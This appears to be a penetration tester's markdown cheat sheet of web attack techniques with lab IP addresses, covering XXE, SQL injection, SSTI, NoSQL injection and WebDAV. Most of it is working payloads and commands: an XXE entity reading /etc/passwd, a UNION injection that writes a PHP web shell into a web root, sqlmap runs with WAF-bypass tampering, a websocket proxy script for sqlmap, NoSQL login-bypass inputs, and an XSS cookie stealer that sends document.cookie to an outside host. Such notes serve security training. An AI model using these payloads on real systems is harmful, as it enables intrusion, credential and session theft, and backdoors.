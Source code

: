 # Cross Site Scripting (XSS)
:information_source: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
:information_source: https://www.scip.ch/en/?labs.20171214 
:information_source: https://xss-game.appspot.com/
:information_source: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
:information_source: https://github.com/payloadbox/xss-payload-list
:information_source: https://tryhackme.com/room/learnowaspzap

# XML External Entities (XXE)
Basic idea: upload an xml to test if it gets parsed and then abusing the doctype definition (DTD).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

# SQL Injection
## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list

## Manual Enumeration
```
http://10.10.10.10/debug.php?id=1 order by 1 # increase until an error occurs to get number of columns

http://10.10.10.10/debug.php?id=1 union all select 1, 2, 3
http://10.10.10.10/debug.php?id=1 union all select 1, username, password
http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## sqlmap
* example commands
```
sqlmap --url http://10.10.128.77:8000/sqlpanel --tables --columns
sqlmap -r sqlpanel.request --dbms=sqlite --dump-all --tamper=space2comment
```
* capture sqlpane.request with burpsuite first
* --tamper=space2comment for trying to bypass WAF

# Server Side Template Injection (SSTI)
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side

* See https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
* Payload Generator: https://github.com/VikasVarshney/ssti-payload

## SQLi websocket
sqlmap can not handle websocket requests therefore the following python script is needed to proxy the requests to the websocket:
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
adjust the port and path and execute it
in another terminal run
```
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

Make sure to try every syntax
```
*{}
${}
#{}
```

# NoSQL Injection
* https://book.hacktricks.xyz/pentesting-web/nosql-injection

Check with the following characters for NoSQL database (if the webserver is responding with a 50X response code)
```
'"\/$[].>

# Examples
username[$ne]=1$password[$ne]=1
username[$ne]=toto&password[$ne]=toto
username='"\/$[].>&password=admin
username=admin'||'1==1&password=admin
```

# WebDAV
WebDAV is an extenstion of HTTP that allows clients to perform remote Web content authoring operations. RFC4918.

## Resources
* [Blogpost from Nullbyte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
* HackTheBox: Granny 

## davtest
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target.
```
davtest -url http://10.10.10.15
```

## cadaver
Cadaver is a simple command-line client, similar to for example the 'ftp' program. It has some advanced features such as lock-management, property management, DASL and version control support.
```
cadaver http://10.10.10.15/mfu
```

# Cookie Stealer
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

See Github Repo 'Redline'
